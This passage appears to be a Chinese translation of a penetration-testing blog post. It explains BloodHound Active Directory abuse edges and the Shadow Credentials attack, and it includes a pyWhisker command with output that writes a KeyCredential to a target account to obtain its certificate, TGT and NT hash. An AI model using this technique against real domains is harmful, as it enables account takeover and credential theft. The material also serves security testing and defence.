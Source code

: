 额外的 BloodHound 边缘

我们现在看到了四 (4) 个我们以前没有看到的边缘。首先，让我们检查一下 _BloodHound_ 的滥用信息：

  *  **WriteDACL** ：这告诉我们可以添加 _GenericAll_ 权限，然后执行有针对性的 Kerberoast 攻击或强制密码重置。
  *  **AllExtendedRights** ：这让我们知道我们可以执行强制密码重置。
  *  **WriteOwner** ：这让我们知道我们可以更改对象的所有者并再次执行有针对性的 Kerberoast 攻击或强制密码重置。
  *  **AddKeyCredentialLink** ：在撰写此博客时，此边缘不存在帮助文本。

使用 _AddKeyCredentialLink_
权限，可以执行影子凭据攻击。虽然这种技术被认为是攻击者可以悄悄地在环境中持续存在的一种方式，但它对于特权升级也很有用，就像强制密码重置一样。

这使我们能够为用户恢复 Kerberos 票证并恢复他们的 NT 哈希，有效地充当单用户
DCSync。我不会详细介绍攻击的工作原理，因为这已经被广泛介绍了，但我将演示如何从 Windows 和 Linux 执行这种攻击。

## 来自 Windows 的影子凭证

可以使用Elad Shamir 的 _Whisker从 Windows 执行此攻击。_ 它使用起来非常简单，在添加 Shadow Credentials
后，它会输出证书和 _Rubeus_ 命令来恢复 Kerberos TGT 和 NT 哈希。

![](https://gitee.com/fuli009/images/raw/master/public/20220310170416.png)

使用 Whisker 添加影子凭证

![](https://gitee.com/fuli009/images/raw/master/public/20220310170417.png)

使用 Rubeus 获取 TGT 和 NT 哈希

## 来自 Linux 的影子凭证

在 Linux 中，我们可以使用Charlie Bromberg 的 _pyWhisker执行此攻击。_

    
    
     # python3 pywhisker.py -d "n00py.local" -u "n00py" -p "PasswordForn00py" --target "esteban_da" --action "add" --filename hax  
    [*] Searching for the target account  
    [*] Target user found: CN=esteban da,OU=Employees,DC=n00py,DC=local  
    [*] Generating certificate  
    [*] Certificate generated  
    [*] Generating KeyCredential  
    [*] KeyCredential generated with DeviceID: 02b2e9ef-d55f-60fe-bca9-f254249a49af  
    [*] Updating the msDS-KeyCredentialLink attribute of esteban_da  
    [+] Updated the msDS-KeyCredentialLink attribute of the target object  
    [+] Saved PFX (#PKCS12) certificate & key at path: hax.pfx  
    [*] Must be used with password: dfeiecA9SZN75zJ7P5Zs  
    [*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools  
    

 **使用 pyWhisker 添加影子凭证**

一旦影子凭证就位，Kerberos TGT 和 NT 哈希就可以使用Dirk-jan Mollema的 PKINITtools 恢复。

    